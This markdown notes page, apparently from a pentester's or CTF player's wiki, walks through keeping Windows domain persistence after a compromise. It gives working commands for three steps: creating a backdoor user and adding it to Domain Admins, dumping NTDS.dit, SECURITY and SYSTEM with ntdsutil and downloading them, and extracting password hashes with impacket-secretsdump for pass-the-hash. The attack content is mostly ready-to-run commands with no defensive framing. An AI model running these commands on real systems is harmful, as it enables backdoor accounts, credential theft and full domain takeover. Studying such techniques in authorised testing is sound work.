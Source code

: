 ```yaml
---
title: Windows Persistence
draft: false
tags:
  - windows
  - persistence
  - ntds-dit
  - add-user
  - secretsdump
---
```


## Plot

Let's say you have successfully compromised the target system as root. However, you might not have stable shell connection such as SSH or you might not know the password and only have reverse shell connection.

These connections are still shell but it is loud and ugly. It is also complicated to reproduce. 

 Below are several ways of maintaining persistence once gained shell as a root.

### Adding Domain Admin User

I can simply create a new user and add the user in Domain Admins group as such:

```bash
net user jadu jadu101 /add
net group "Domain Admins" /add jadu
```
![](https://i.imgur.com/AfmJPXJ.png)



Now with evil-winrm, I can sign in as the created user:

![](https://i.imgur.com/y8ojooG.png)


### Dumping NTDS.dit

I can dump **NTDS.dit** to obtain hashes for users and pass those hashes to gain connection to the machine.

Below command dumps **SECURITY**, **SYSTEM**, and **NTDS.dit** file to Temp folder which could be downloaded to dump password hashes:

`powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"`

![](https://i.imgur.com/5cMUA6O.png)


On **/Temp/registry**, I have **SECURITY** and **SYSTEM** file which I download to local machine:

```bash
download SECURITY
download SYSTEM
```
![](https://i.imgur.com/9NfYoBM.png)


On **/Temp/Active-Directory**, I have **NTDS.dit** file which I download to local machine as well:

```bash
download ntds.dit
```
![](https://i.imgur.com/ix6S7VR.png)


Now with **secretsdump**, I can obtain bunch of password hashes:

`root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local`

![](https://i.imgur.com/yi7hUfY.png)


I can try to crack these hashes, but it is not necessary. I can pass the **NT** part of the hashes to gain shell connection:

![](https://i.imgur.com/OsTxNof.png)



[Here](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/lateral-movement/alternate-authentication-material/wip-pass-the-hash) are more steps you can follow once you obtain hash for Administrator.
